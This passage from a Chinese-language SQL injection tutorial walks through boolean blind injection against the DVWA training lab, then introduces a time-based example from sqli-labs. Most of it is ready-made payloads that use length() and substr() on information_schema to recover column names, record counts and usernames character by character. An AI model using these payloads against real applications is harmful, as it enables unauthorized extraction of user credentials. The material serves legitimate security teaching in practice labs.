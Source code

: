 ```
1' and length((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 0,1))=7#
1' and length((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 3,1))=4#
1' and length((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 4,1))=8#
```

3.判断第四列列名。

```
1' and (substr((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 3,1),1,1))='u'#
1' and (substr((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 3,1),2,1))='s'#
1' and (substr((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 3,1),3,1))='e'#
1' and (substr((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 3,1),4,1))='r'#
```

4.判断第五列列名。

```
1' and (substr((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 4,1),1,1))='p'#
1' and (substr((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 4,1),2,1))='a'#
1' and (substr((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 4,1),3,1))='s'#
1' and (substr((select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 4,1),4,1))='s'#

（后略）
```

#### 5.2.4 盲注数据

数据库名，表名，列名，现在都推出来了，现在则是查看列里的内容。

```
1' and (select count(*) from dvwa.users)=5# （判断列中有几条记录）
1' and length(substr((select user from users limit 0,1),1))=5# （判断user这一列的第一条记录的长度是否为5)
1' and substr((select user from users limit 0,1),1,1)='a' # (判断user这一列的第一条记录的第一个字段是否为a)
1' and substr((select user from users limit 0,1),2,1)='d'# (判断user这一列的第一条记录的第二个字段是否为d)
1' and substr((select user from users limit 1,1),1,1)>'g'# (判断user这一列的第二条记录的第一个字段ascii码值是否为大于g)
```

### 5.3 时间盲注

这个例子出自sqli-labs靶场的第九关。

靶场下载地址为：https://github.com/Audi-1/sqli-labs
